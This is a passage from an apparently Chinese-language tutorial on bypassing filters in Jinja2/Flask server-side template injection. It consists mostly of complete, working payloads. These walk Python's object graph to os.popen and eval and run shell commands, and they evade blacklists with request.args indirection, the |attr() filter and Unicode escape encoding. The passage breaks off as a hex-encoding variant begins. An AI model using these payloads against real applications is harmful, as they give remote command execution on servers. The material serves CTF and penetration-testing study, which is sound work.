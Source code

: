 所以最终的 payload 如下：

```
{{()|attr(request.args.x1)|attr(request.args.x2)|attr(request.args.x3)()|attr(request.args.x4)(77)|attr(request.args.x5)|attr(request.args.x6)|attr(request.args.x4)(request.args.x7)|attr(request.args.x4)(request.args.x8)(request.args.x9)}}&x1=__class__&x2=__base__&x3=__subclasses__&x4=__getitem__&x5=__init__&x6=__globals__&x7=__builtins__&x8=eval&x9=__import__("os").popen('ls /').read()


```

### 用 Unicode 编码配合 `|attr()` 进行 Bypass

过滤了以下字符：

```
'  request  {{  _  %20(空格)  [  ]  .  __globals__   __getitem__


```

我们用 `{%...%}`绕过对 `{{` 的过滤，并用 unicode 绕过对关键字的过滤。unicode 绕过是一种网上没提出的方法。

假设我们要构造的 payload 原型为：

```
{{().__class__.__base__.__subclasses__()[77].__init__.__globals__['os'].popen('ls').read()}}


```

先用 `|attr` 绕过 `.` 和 `[]`：

```
{{()|attr("__class__")|attr("__base__")|attr("__subclasses__")()|attr("__getitem__")(77)|attr("__init__")|attr("__globals__")|attr("__getitem__")("os")|attr("popen")("ls")|attr("read")()}}


```

我们可以将过滤掉的字符用 unicode 替换掉：

```
{{()|attr("\u005f\u005f\u0063\u006c\u0061\u0073\u0073\u005f\u005f")|attr("\u005f\u005f\u0062\u0061\u0073\u0065\u005f\u005f")|attr("\u005f\u005f\u0073\u0075\u0062\u0063\u006c\u0061\u0073\u0073\u0065\u0073\u005f\u005f")()|attr("\u005f\u005f\u0067\u0065\u0074\u0069\u0074\u0065\u006d\u005f\u005f")(77)|attr("\u005f\u005f\u0069\u006e\u0069\u0074\u005f\u005f")|attr("\u005f\u005f\u0067\u006c\u006f\u0062\u0061\u006c\u0073\u005f\u005f")|attr("\u005f\u005f\u0067\u0065\u0074\u0069\u0074\u0065\u006d\u005f\u005f")("os")|attr("popen")("ls")|attr("read")()}}


```

### 用 Hex 编码配合 `|attr()` 进行 Bypass

和上面那个一样，只不过是将 Unicode 编码换成了 Hex 编码，适用于 “u” 被过滤了的情况。

我们可以将过滤掉的字符用 Hex 编码替换掉：
